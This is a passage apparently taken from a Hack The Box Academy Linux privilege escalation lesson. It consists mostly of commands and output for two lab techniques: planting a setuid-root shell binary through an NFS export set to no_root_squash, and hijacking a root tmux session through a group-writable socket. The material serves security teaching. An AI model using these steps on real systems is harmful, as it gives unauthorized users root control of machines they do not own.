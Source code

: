 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/51/section/478
// Platform Version: V1
// Module ID: 51
// Module Name: Linux Privilege Escalation
// Module Difficulty: Easy
// Section ID: 478
// Section Title: Miscellaneous Techniques
// Page Title: Linux Privilege Escalation
// Page Number: 19
-->

# Miscellaneous Techniques

**Module Name:** Linux Privilege Escalation **Page Number:** 19

#### LINUX PRIVILEGE ESCALATION

# Miscellaneous Techniques

## Passive Traffic Capture

## Weak NFS Privileges

``` shell-session
[!bash!]$ showmount -e 10.129.2.12

Export list for 10.129.2.12:
/tmp             *
/var/nfs/general *
```

``` shell-session
htb@NIX02:~$ cat /etc/exports

# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

``` shell-session
htb@NIX02:~$ cat shell.c 

#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
```

``` shell-session
htb@NIX02:/tmp$ gcc shell.c -o shell
```

``` shell-session
root@Pwnbox:~$ sudo mount -t nfs 10.129.2.12:/tmp /mnt
root@Pwnbox:~$ cp shell /mnt
root@Pwnbox:~$ chmod u+s /mnt/shell
```

``` shell-session
htb@NIX02:/tmp$  ls -la

total 68
drwxrwxrwt 10 root  root   4096 Sep  1 06:15 .
drwxr-xr-x 24 root  root   4096 Aug 31 02:24 ..
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .font-unix
drwxrwxrwt  2 root  root   4096 Sep  1 05:35 .ICE-unix
-rwsr-xr-x  1 root  root  16712 Sep  1 06:15 shell
<SNIP>
```

``` shell-session
htb@NIX02:/tmp$ ./shell
root@NIX02:/tmp# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare),1000(htb)
```

## Hijacking Tmux Sessions

``` shell-session
htb@NIX02:~$ tmux -S /shareds new -s debugsess
htb@NIX02:~$ chown root:devs /shareds
```

``` shell-session
htb@NIX02:~$  ps aux | grep tmux

root      4806  0.0  0.1  29416  3204 ?        Ss   06:27   0:00 tmux -S /shareds new -s debugsess
```

``` shell-session
htb@NIX02:~$ ls -la /shareds 

srw-rw---- 1 root devs 0 Sep  1 06:27 /shareds
```

``` shell-session
htb@NIX02:~$ id

uid=1000(htb) gid=1000(htb) groups=1000(htb),1011(devs)
```

``` shell-session
htb@NIX02:~$ tmux -S /shareds

id

uid=0(root) gid=0(root) groups=0(root)
```

# 

# 

#### Questions

####